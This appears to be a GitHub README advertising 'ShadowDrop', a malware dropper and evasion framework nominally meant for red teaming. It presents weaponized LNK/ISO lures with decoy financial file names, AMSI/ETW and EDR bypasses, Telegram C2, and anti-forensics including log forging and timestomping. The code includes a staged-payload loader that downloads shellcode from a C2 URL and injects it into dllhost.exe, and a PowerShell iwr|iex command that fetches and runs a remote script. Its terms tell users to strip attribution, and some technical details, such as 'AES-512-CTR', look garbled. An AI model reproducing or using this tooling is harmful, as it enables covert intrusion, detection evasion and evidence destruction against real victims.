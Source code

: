 
<div align="left">

# ⚔️ ShadowDrop Framework
**Advanced Malware Dropper & Evasion Toolkit for Authorized Red Teaming**


> ⚠️ **LEGAL WARNING**: This toolkit is designed exclusively for authorized penetration testing and defensive research. Unauthorized use violates international laws.

**The core of the system:**
```mermaid
graph LR
    A[Core Engine] -->|Secure IPC| B[Vectors]
    A -->|Encrypted Channels| C[Evasion]
    A -->|Obfuscated API| D[C2]
    B --> E[Target]
    C --> E
    D --> E
```

**By accessing this repository, you irrevocably agree to**:
1. **Authorization Requirement**: Use ONLY on systems with explicit written owner consent
2. **Zero-Collateral Policy**: Never disrupt production systems or exfiltrate real data
3. **Full Anonymity**: Strip all metadata and watermarking before deployment
4. **Non-Attribution**: Never reference this project in engagement reports

> Technical architecture: Multi-level protection system
```mermaid
graph TD
    A[Operator] --> B{Payload Generation}
    B --> C[Polymorphic .LNK]
    B --> D[ISO/IMG]
    B --> E[Zero-Click Exploits]
    A --> F{Evasion Modules}
    F --> G[AMSI/Kernel Patching]
    F --> H[ETW/TiWorker Neutralization]
    F --> I[Direct Syscalls]
    A --> J{Operational Security}
    J --> K[Tor C2 Routing]
    J --> L[Memory-Only Execution]
    J --> M[Log Forging]
```
> Current Stage: Alpha Development

✅ **Completed Modules**:
- Memory-only reflective loader
- Weaponized LNK/ISO generators
- AMSI/ETW patching
- Telegram dead-drop C2
- Basic anti-forensics

## 🧰 Core Capabilities

### 🧬 Next-Gen Payload Delivery
```cpp
void ExecuteStagedPayload(LPCSTR c2_url) {
    BYTE* shellcode = DownloadEncryptedPayload(c2_url);
    XORDecrypt(shellcode, 0xAA);
    InjectIntoProcess("dllhost.exe", shellcode); // Living-off-the-Land
    WipeMemory(shellcode); // Zero forensic footprint
}
```

- Polymorphic droppers with runtime code mutation
- Zero-touch deployment via weaponized LNK/ISO containers
- Process ghosting with section object hijacking
- API unhooking for EDR bypass

> Polymorphic engine
```mermaid
sequenceDiagram
    participant Stager
    participant Cryptor
    participant Memory

    Stager->>Cryptor: Request decryption key (TPM 2.0)
    Cryptor->>Stager: Dynamic key (AES-512-CTR)
    Stager->>Memory: Load encrypted payload
    Stager->>Cryptor: Decrypt in registers
    Cryptor->>Memory: Write plaintext (RX only)
    Memory->>Stager: Execute payload
    Stager->>Cryptor: Zeroize keys
```

### 🔥 Operational Features

#### C2 Infrastructure
- Dead-drop synchronization via Telegram bots
- Geofenced payload activation (GPS coordinates)
- Self-destruct on forensic tool detection

#### Anti-Forensics
- MFT entry corruption
- Timestomping
- Memory-only persistence

### 🚀 Rapid Deployment
```powershell
# Install ShadowDrop framework
iwr https://raw.githubusercontent.com/Untouchable17/ShadowDrop-Framework/main/install.ps1 -UseBasicParsing | iex

# Generate weaponized ISO (Office 0-day)
New-ShadowDropVector -Template FinancialReport -Payload Meterpreter -Obfuscation 7 -Output "Q3_Results.iso"

# Build custom dropper (C++/ASM hybrid)
Compile-ShadowDrop -Source .\Core\Stager.cpp -Arch x64 -Evasion "ETW+PatchGuard" -Output stager.bin

# Execute test campaign
Start-RedTeamOperation -Campaign "Operation Midnight" -TargetDomain corp.local -SafeMode
```
Output: Fully weaponized ISO with fingerprint-matching decoy documents

### 🧩 Framework Architecture
```bash
ShadowDrop/
├── Core/                      # Framework engine
│   ├── Stager                 # Memory-only loader
│   ├── Cryptor                # ChaCha20 + AES-NI
│   └── AntiForensics          # Evidence elimination
├── Vectors/                   # Delivery mechanisms
│   ├── LNK_Generator          # Weaponized shortcut creator
│   ├── ISO_Weaponizer         # Exploit-packed ISOs
│   └── OneClick_Exploits      # Browser/documents 0days
├── Evasion/                   # Detection avoidance
│   ├── AMSI_Killer            # Kernel-level patching
│   ├── ETW_Eraser             # Event Tracing dismantling
│   └── Syscall_Hell           # Direct syscall gates
├── C2/                        # Command infrastructure
│   ├ DeadDrop_Comms           # Telegram/Signal C2
│   ├ GeoFence_Activator       # Location-based triggers
│   └ Burner_Protocol          # Self-destruct system
└── Operations/                # Mission control
    ├ OpSec_Validator          # Target verification
    ├ Log_Forger               # Evidence fabrication
    └ Exfil_Simulator          # Beacon testing
```

## 🔒 Compliance Safeguards
```csharp
// Embedded safety protocols
if (!IsAuthorizedEnvironment()) {
    TriggerSelfDestruct(0xDEAD); // Immediate wipe
}

bool IsAuthorizedEnvironment() {
    return CheckDebugger()          ? false :  // Debugger
           CheckVM()               ? false :  // Virtualization
           CheckDomain("prod.corp") ? false : // Production check
           CheckGeoIP("RU,CN,IR")  ? false : // Geo-blocked
           true;
}
```

- Automatic shutdown in unauthorized environments
- Payload deactivation after 72 hours
- Embedded watermarking (SHA-3 operator ID)
- Zero disk writes (memory-only operation)

## 📜 License & Operational Constraints
**License**: GPL-3.0+ Use Restriction

**Mandatory OPSEC**:
```bash
# Strip all metadata before use
python -m shadowdrop.sanitize --file weaponized.iso
```
```diff
- Critical: Always use VPN chaining and burner devices
+ Operational Tip: Pair with Cobalt Strike for full campaign simulation
```


> Disclaimer: All payloads execute benign calc.exe (or other) by default. Real-world weaponization requires external payload integration. Developers bear zero liability for misuse.
